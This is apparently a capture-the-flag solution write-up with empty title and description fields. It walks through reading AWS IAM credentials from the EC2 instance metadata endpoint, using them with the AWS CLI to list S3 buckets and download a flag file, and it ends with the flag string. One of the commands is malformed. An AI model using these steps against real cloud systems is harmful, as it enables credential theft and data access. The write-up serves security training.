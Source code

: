 # Title



# Description



# Solve

1. Make a request to `http://169.254.169.254/latest/meta-data/iam/security-credentials/` to find the IAM role that is associated with the EC2.
2. Make a request to `http://169.254.169.254/latest/meta-data/iam/security-credentials/<IAM ROLE>` to determine the accesskeyid and secretaccesskey of the AWS IAM Role.
3. On a terminal with the AWS CLI installed, run `aws configure` and configure the Access Key, Secret Access Key, and the region. The region can be guessed either by the IP of the EC2/website (curl -O https://ip-ranges.amazonaws.com/ip-ranges.json), or they can guess. 
4. Determine what permissions the user has, either through a brute force, or by just checking some common ones. This use also has the ability to read S3 buckets.
5. Run `aws s3 ls`, which will show all S3 buckets the user has access to. 
6. Run ` aws s3 s3://magpie2025-secret/ ls` to see all the files in the bucket.
7. Run ` aws s3 cp s3://magpie2025-secret/flag.txt .` to download the flag. 

# Flag

magpie{14m_15_700_345y_70_m355_up}